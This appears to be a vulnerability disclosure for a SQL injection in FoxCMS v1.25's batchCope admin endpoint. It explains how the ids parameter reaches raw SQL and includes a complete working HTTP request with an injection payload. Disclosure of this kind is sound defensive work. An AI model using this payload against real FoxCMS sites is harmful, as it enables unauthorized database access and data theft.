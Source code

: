 # SQL Injection Vulnerability in FoxCMS

**Version: FoxCMS v1.25**

**Google Dork: N/A**

**Date: 05/13/2025**

**Tested on: Windows 11, Apache 2.4, MySQL 8.0, PHP 7.3**

**Software Link: https://gitee.com/qianfox/foxcms**

**Description:** A SQL injection vulnerability exists in the `batchCope` method of the controller located at `app/admin/controller/Article.php`. Due to improper handling of the `ids` parameter, user input is directly embedded into a raw SQL query without validation or parameterization. This allows an authenticated attacker to inject arbitrary SQL statements, potentially leading to unauthorized access, extraction of sensitive data, or full compromise of the underlying database.

**code analysis**

The `batchCope` method retrieves the `ids` parameter from user input and directly concatenates it into a raw SQL query without any validation or parameter binding. This allows an attacker to inject arbitrary SQL code through the `ids` parameter, potentially leading to unauthorized access, data leakage, or modification of database contents.

https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161945913.png

**Payload used:**

```
POST /index.php/admin1738/Article/batchCope.html HTTP/1.1
Host: www.foxcms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://www.foxcms.com
Connection: keep-alive
Referer: http://www.foxcms.com/index.php/admin1738/Article/index.html?columnId=28
Cookie: PHPSESSID=94901524f6ef7383bc9d9e2730738a3f
Priority: u=0

ids=1)+or+(select database())='foxcms'--+

```

Example：

https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161636029.png

https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161636079.png

https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161802423.png
